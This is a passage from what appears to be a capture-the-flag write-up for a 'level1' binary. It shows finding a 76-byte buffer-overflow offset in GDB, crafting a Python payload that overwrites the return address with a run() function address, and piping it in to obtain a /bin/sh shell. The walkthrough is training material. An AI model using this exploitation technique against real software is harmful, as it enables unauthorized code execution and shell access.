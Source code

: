 Now run the program in GDB with the generated input:

```bash
(gdb) r < /tmp/exploit
```

This will cause the program to crash due to the buffer overflow. The crash will show the value of the program counter (EIP) and help us determine the offset.

In GDB, you should see something like this:

```
Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

The value `0x61616161` corresponds to the character `'a'`. This means we’ve overflowed the buffer at 76 bytes, which is the exact offset where the return address is stored.

### 4. Craft the Exploit

Now that we know the offset (76 bytes), we can create the exploit.

The exploit consists of:
- **76 bytes of padding** (to fill the buffer).
- **The address of the `run()` function**, written in little-endian format.

the address of `run()` is `0x08048444`. In little-endian format, this becomes `\x44\x84\x04\x08`.

Create the exploit:

```bash
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
```
### 5. Execute the Exploit

Now, execute the exploit by piping the input into the `level1` program:

```bash
cat /tmp/exploit | ./level1
```

If everything works correctly, you should see the following output:

```
Good... Wait what?
```

This confirms that the `run()` function was executed and `/bin/sh` was launched.

### 6. Keep the Shell Open

Since `/bin/sh` is non-interactive and will exit immediately because of the EOF condition, we can use `cat` to keep the shell open:

```bash
cat /tmp/exploit - | ./level1
```

This will allow you to interact with the `/bin/sh` shell.
